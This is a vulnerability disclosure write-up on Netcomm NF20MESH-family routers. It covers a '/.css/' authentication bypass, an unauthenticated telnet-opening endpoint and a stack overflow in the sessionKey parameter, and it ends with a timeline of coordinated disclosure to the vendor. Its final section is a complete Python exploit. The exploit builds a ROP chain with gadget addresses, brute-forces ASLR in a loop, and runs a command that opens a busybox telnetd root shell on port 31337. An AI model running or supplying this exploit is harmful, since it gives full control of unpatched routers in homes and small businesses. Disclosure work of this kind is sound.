# Netcomm - Unauthenticated Remote Code Execution (CVE Pending)

## Affected Devices:
Research performed against the NF20MESH router running firmware versions prior to version `R6B021`. The following devices have been confirmed by the vendor to be vulnerable:

- NF20
- NF20MESH
- NL1902

It's possible that other devices may also be affected.

## Overview
Netcomm produce routers for residential and small business use. At the time of writing, the Netcomm NF20Mesh router is currently recommended by [Aussie Broadband](https://www.aussiebroadband.com.au/nbn-plans/nbn-modem/) when signing up for a new service with the number other Australian service providers and vendors starting to offer Netcomm routers. 

Noticing that a new model had been released, I had to know if a previous 0day of mine still worked against it. Aftering promptly ordering the new model, I was quickly sadden to see that two of my bugs didn't work.

Reading through the firmeware release notes, it didn't appear that my previous bugs had been found, so I was curious to know why it didn't affect it. As I was stepping through each step of the exploit chain out I noticed that some of the previous functionality I had abused to land my original shell had now been retired or removed.

I wanted to try and find another RCE, and so I downloaded the latest firmware to try and pull out the filesystem. Unfortunately, all of the newer firmware releases were now provided in an encrypted format.


## Initial Shell

Not having the luxury of simply running `binwalk` to pull out the filesystem like I did last time, I started looking for an alternative method to getting access to the device's file system. I spent a fair bit of time trying to black box the web server, looking for `ping` utilities and other pages that might be shelling out for command injection bugs, arbitrary file reads that could leak file contents etc. 
 
Failing to find any obvious low hanging vulnerabilities, I decided to try and get onto the board by soldering to a UART interface:



Turning the device on, I could see the bootup process happening through the console where eventually I was asked to login. Logging into the device however dropped me into the same telnet shell which I was unable to escape out of:



Restarting the device, I interupted the boot process and added an extra kernel boot parameter:



Continuing the boot process with the `r` command, I was able to drop into a local shell via serial:



Finally, running the startup commands in `/etc/inittab` brought all the services up, allowing me to take files off the device with netcat.

## Vulnerabilities

Having local shell access now allowed me to start looking for vulnerabilities. Unauthenticated remote code execution requires the exploitation of two bugs; an authentication bypass and a stack-based buffer overflow vulnerability.

### **1. Authentication Bypasss:**

While reverse engineering the `httpd` binary, I noticed the application was performing checks against the request file extensions using the `strstr()` function.

If you're unfamiliar with the `strstr` function in C, `strstr` finds the first occurrence of a word/character within a string. So instead than checking if the file in the path ends with `.css`, `.png` etc, it's only checking if the presence of these values in the path is there:



After this check, and additional check is performed to ensuring that a referer is set:



If both these checks pass, the `do_ej` function then processes the requested file:



Playing around with the `strstr()` function, I was able to trick the application into thinking I was authenticated by fetching a restricted page that was prefxied with `/.css/` in front of it. The `strstr` check passes, and then processes the request:






I'm not 100% sure as to why the extension check was written this way, but I think this is a work around for serving static content while putting everything behind authentication. In order to serve a background image for the a login page, it sets the request as being in an authenticated state to be able to successfully fetch the resource.

Additionally, I noticed there is a strange unauthenticated `/twgjtelnetopen.cmd` route which, while returns a 404 error page, is opening up the telnet service:



Perhaps some kind of debug/tech support endpoint? 


### **2. Buffer Overflow:**

The second step was trying to find an alternative method on getting code execution on the device. 

Using `checksec`, I could see the `httpd` binary has been compiled with a non-executable stack (`NX`), however other exploit mitigations had not been enabled:

```
gdb-peda$ checksec
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.

CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

I looked for cross-references for any `system()` calls that I might be able to hit however was unable to find anything that looked injectable. I started then looking for any cases of dangerous functions being used that might be exploitable. Fortunately, I was able to find quite a few instances of `strcpy` being used:






Given the number of `strcpy` references in the application, I wrote a small python script to starting fuzzing parameters to see if we could trigger any bugs while I performed a deeper analysis of the binary itself. After running the fuzzer, I quickly saw the following crash on my UART console:

```
task: cdd0dc00 ti: caca0000 task.ti: caca0000
PC is at 0x41414140
LR is at 0x29218
pc : [<41414140>]    lr : [<00029218>]    psr: 60070010
sp : bee158c0  ip : 00000000  fp : 41414141
r10: 41414141  r9 : 41414141  r8 : 00000000
r7 : 41414141  r6 : 41414141  r5 : 41414141  r4 : 41414141
r3 : 00000000  r2 : 00000000  r1 : 00000000  r0 : 00000001
[...]
```

I could also see that I had full control over the `r4`, `r5`, `r6`, `r7`, `r10` and `fp` registers at the time of the crash. But also, most importantly, I had full control over the `PC` register. Unfortunately with the `NX` stack protections enabled, I would need to build a ROP chain in order to get a shell.

Looking through the crash, I noticed another issue which was that the memory pages for the binary are being loaded into address ranges containing null bytes:

```
Call Process maps
00010000-0009f000 r-xp 00000000 fe:00 742        /bin/httpd
000ae000-000af000 r--p 0008e000 fe:00 742        /bin/httpd
000af000-000b5000 rw-p 0008f000 fe:00 742        /bin/httpd
[...]
```

This was a problem because even though the application itself wasn't compiled with ASLR protection, I couldn't use any gadgets in it because the presence of a null byte would terminate the payload early. All the other libraries used by the application are using the system's ASLR which meant I was going to have to tackle the address randomization of the functions in libraries being used. 

To help with getting a working exploit, I turned ASLR off on the router by running the following command:

```
echo 0 > tee /proc/sys/kernel/randomize_va_space
```

This provided a more stable environment to help with debugging the ROP chain by not having addresses changing on me while getting it to work. After getting an exploit working with ASLR turned off, I had to now go back and get it working with it enabled. Fortunately during the debugging process of the current exploit, I noticed hat the main application wasn't actually crashing. Instead, it was actually forking out a `httpd` service which processed the request and was crashing. Additionally the number of bytes in the address range changing was bruteforceable. I grabbed the base address of `libc` from a crash and calcuated where the addresses to functions would be. 

Because the main process wasn't dying, I could keep issuing the same request in an infinite loop and see if I got lucky with `libc` being loaded again at the hardcoded base address by connecting to the telnet service:




## Exploit / TL;DR:
If you're really unlucky, it can take up to 10-15 minutes for the exploit to finally get a hit on libc's base address. I've found on average though that somewhere between 3-5 minutes seems to be the sweet spot.

```python
#!/usr/bin/python3
"""
Netcomm NF20MESH Unauthenticated RCE
Author: Brendan Scarvell
Vulnerable versions: <= R6B021

A stack based buffer overflow exists in the sessionKey query string parameter. An authentication bypass
was also discovered by providing /.css/ in the request path. Chaining both of the two bugs together
results in unauthenticated remote code execution.

The exploit can take up to 5-10 minutes until it gets lucky and hits the right base address for libc.
"""

import requests, telnetlib, sys, time

"""
task: cdd0dc00 ti: caca0000 task.ti: caca0000
PC is at 0x444444
LR is at 0x29218
pc : [<00444444>]    lr : [<00029218>]    psr: 60070010
sp : bee158c0  ip : 00000000  fp : 41414141
r10: 41414141  r9 : 41414141  r8 : 00000000
r7 : 41414141  r6 : 41414141  r5 : 41414141  r4 : 41414141
r3 : 00000000  r2 : 00000000  r1 : 00000000  r0 : 00000001
"""

TARGET = "192.168.20.1"

MAX_BUF_SIZE = 4140

libc_system         = b"%6C%89%a2%b6"   # 0xb6a2896c

# Gadgets
big_pop             = b"%40%2b%65%b6"   # 0xb6652b40 (0x00079b40) : mov r0, r1; pop {r4, r5, r6, r7, pc};
add_r1_sp_blx_r5    = b"%6c%79%6d%b6"   # 0xb66d796c (0x000fe96c) : add r1, sp, #0x14; blx r5;
mov_r0_r1_blx_r3    = b"%cc%d0%64%b6"   # 0xb664d0cc (0x000740cc) : mov r0, r1; blx r3;
mov_r4_r3_pop_r4_pc = b"%7c%98%65%b6"   # 0xb665987c mov r3, r4; mov r0, r3; pop {r4, pc}; 

# pewpew
buf  = b"A" * 4096
buf += big_pop              # r3 => pop system() into PC
buf += mov_r0_r1_blx_r3     # r5 => mov r1 into r0, blx to r3 to continue chain (big_pop ^)
buf += b"B" * ((MAX_BUF_SIZE - len(buf)))                  
buf += mov_r4_r3_pop_r4_pc  # move r4 into r3 to continue rop chain
buf += b"CCCC"              
buf += add_r1_sp_blx_r5     # push sp to point at command and save in r1
buf += b"D" * 16            
buf += libc_system          # executed last after r0 populated
buf += b""
buf += b"sh%20-c%20%22/bin/busybox%20telnetd%20-l%20/bin/sh%20-p%2031337%22%23"     

print(f"[*] payload length: {len(buf)}")

buf = buf.decode("latin1")

# Referer header is required in the request
headers = {
    "Referer": f"http://{TARGET}/login.html" 
}

print("[*] bruteforcing aslr. this could take a while..")

pwned = False

# keep repeating until the base address for libc is 0xb65d9000, allowing the gadgets + system() line up correctly

while not pwned:
    try:
        r = requests.get(f"http://{TARGET}/.css/rtroutecfg.cgi?defaultGatewayList=ppp0.3&dfltGw6Ifc=&sessionKey={buf}", timeout=5, headers=headers)

    except requests.exceptions.ConnectionError:
        # successful exploitation hangs connection. Capture timeout so we dont hang forever
        print("\n[*] got hit on libc @ 0xb65d9000")
    
    try:
        tn = telnetlib.Telnet(TARGET, 31337)
        if (tn):
            pwned = True
            print("[*] popping shell")
            time.sleep(2)
            tn.interact()
    except:
        sys.stdout.write(".")
        sys.stdout.flush()
```


## Timeline

- 16/10/22 - Requested security contact to report details to.
- 17/10/22 - Netcomm responded advising to send details in ticket to forward to engineering. Advised Netcomm of 60 day disclosure period.
- 01/11/22 - Netcomm provided updated firmware to verify patch. Advised Netcomm patch was incomplete.
- 08/11/22 - Netcomm provided another updated firmware to verify patch. Advised Netcomm issues appeared to be resolved.
- 18/11/22 - Netcomm released firmware (`R6B021`) with the fix to public. CVE requested through MITRE.  
- 03/12/22 - Requested update from MITRE for CVE.
- 16/12/22 - Requested another update from MITRE regarding CVE.
- 27/12/22 - Advisory disclosed. CVE still pending.
